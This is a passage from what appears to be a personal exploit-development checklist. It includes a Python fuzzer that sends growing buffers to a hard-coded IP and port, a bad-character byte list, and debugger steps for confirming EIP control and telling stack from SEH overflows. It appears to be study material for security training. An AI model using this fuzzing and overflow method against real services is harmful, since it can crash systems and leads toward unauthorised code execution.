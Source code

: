     ######## FUZZ TCP########
    
    size = 1
    while True:
    
        size = size + 10
        inputBuffer = b"A" * size
    
        print("\nFuzzing with {} bytes".format(len(inputBuffer)))
        s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.10.234', 4455))
        s.send(inputBuffer)
        s.close()   
        print("\nDone!"
    ```
    
- [ ]  Analyze the crash: Identify the buffer size check the `ECX` or `EAX` registers.  Do we overwrite `EIP` as expected?
    - Are we overwriting registers?
    - Where is our buffer stores? Is it stored as DWORDs? If stored in UNICODE every character presented as WORD rather than byte, 12 bytes then become 24 byte in unicode. e.g. appends 0x00 to every character
    - How close is our buffer to `ESP`?
    - Restrictions identification
        - Partial overwrites (increase buffer size and recheck) `dds esp L10` e.g. 3 bytes `00414141`
        - Is the buffer treated as a string e.g. `AAAAAA` etc, is a null byte added?
        - Any space restrictions identified?
        - Bad characters e.g. null byte terminated `00414141` as in this example. Monitor the stack e.g. `ESP`, etc., if not crashing, can be bad chars, check mangling (`db esp - 0nSIZE`)
            
            Note uncomment each section as you move through them.. **Check bad chars twice!!**
            
            ```python
            	BADCHARS = (
              b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
              b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
              b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
              b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
              b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
              b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
              b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
              b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
              b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
              b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
              b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
              b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
              b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
              b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
              b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
              b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
            ```
            
- [ ]  Type of overflow e.g. basic stack (`ESP` ≠ `Buffer` and `EIP` control) or SEH
    - Types Description
        - **jump (or call)** Control EIP register via `JMP` or `CALL` —> Binary Search Tree or Unique Strings Monitor Overflow ([https://wiremask.eu/tools/buffer-overflow-pattern-generator/](https://wiremask.eu/tools/buffer-overflow-pattern-generator/))
            